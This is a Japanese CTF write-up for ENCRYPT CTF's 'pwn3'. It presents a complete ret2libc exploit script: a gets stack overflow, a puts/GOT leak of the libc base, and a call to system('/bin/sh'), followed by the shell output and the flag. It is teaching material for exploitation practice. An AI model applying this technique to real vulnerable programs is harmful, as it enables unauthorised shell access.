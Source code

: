 # [pwn 300pts] pwn3 - ENCRYPT CTF
ENCRYPT CTFの300点問題なので期待しましょう。
32bitバイナリでセキュリティ機構は基本的に無効のようです。
```
$ checksec pwn3
[*] 'pwn3'
    Arch:	32 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	No RELRO
    PIE:	PIE disabled
```
まずはIDAで解析します。
今までと同じくgetsによるスタックオーバーフローです。
今回は今までと違って補助的な関数はありません。

したがって、putsでlibcのバージョン特定&アドレスリークをし、`system("/bin/sh")`を呼びましょう。
面倒なのでlibcバージョンを調べる過程は省略します。

```python
from ptrlib import *

libc = ELF("/lib/i386-linux-gnu/libc-2.27.so")
elf = ELF("./pwn3")
sock = Process("./pwn3")

plt_puts = 0x08048340

# Stage 1
payload = b'A' * 0x8C
payload += p32(plt_puts)
payload += p32(elf.symbol("_start"))
payload += p32(elf.got("puts"))
sock.recvuntil("desert: \n")
sock.sendline(payload)
addr_puts = u32(sock.recvline()[:4])
libc_base = addr_puts - libc.symbol("puts")
addr_system = libc_base + libc.symbol("system")
addr_exit = libc_base + libc.symbol("exit")
addr_binsh = libc_base + next(libc.find("/bin/sh"))
dump("libc base = " + hex(libc_base))

# Stage 2
payload = b'A' * 0x8c
payload += p32(addr_system)
payload += p32(addr_exit)
payload += p32(addr_binsh)
sock.sendline(payload)

sock.interactive()
```

できました。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=9389)
[ptrlib] libc base = 0xf7d99000
[ptrlib]$ cat flag.txt
I am hungry you have to feed me to win this challenge...

Now give me some sweet desert: 
encryptCTF{70_7h3_C3nt3R_0f_L!bC}
[ptrlib]$
```

# 感想
スタックオーバーフローに慣れていればさくっと解ける問題だと思います。